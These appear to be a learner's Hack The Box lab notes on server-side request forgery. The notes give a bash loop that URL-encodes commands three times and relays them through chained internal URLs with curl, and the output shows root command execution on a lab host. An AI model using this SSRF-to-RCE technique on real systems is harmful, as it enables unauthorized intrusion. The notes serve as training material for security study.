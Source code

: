 ```shell
p3ta@htb[/htb]$ sudo apt-get install jq
$ echo "encode me" | jq -sRr @uri
encode%20me%0A
```

We can now create a bash function to automate executing commands on the target application.

#### Automate executing commands

```shell
p3ta@htb[/htb]$ function rce() {
function> while true; do
function while> echo -n "# "; read cmd
function while> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
function while> curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
function while> echo ""
function while> done
function> }
```

Now we need to call the function and execute commands via:

```shell
p3ta@htb[/htb]$ rce
# uname -a; hostname; whoami

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=uname%20-a%3B%20hostname%3B%20whoami
</h1><a>Linux a054d48cc0a4 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 GNU/Linux
a054d48cc0a4
root
 </a></body></html>
```

# Assessment

![[Pasted image 20231219093528.png]]

![[Pasted image 20231219093056.png]]

There is a redirection to 

http://10.129.201.238/load?q=index.html

![[Pasted image 20231219093824.png]]

![[Pasted image 20231219093833.png]]
```
```shell-session
function rce() {
> while true; do
> echo -n "# "; read cmd
> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
> curl -s -o - "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
> echo ""
> done
> }
```
```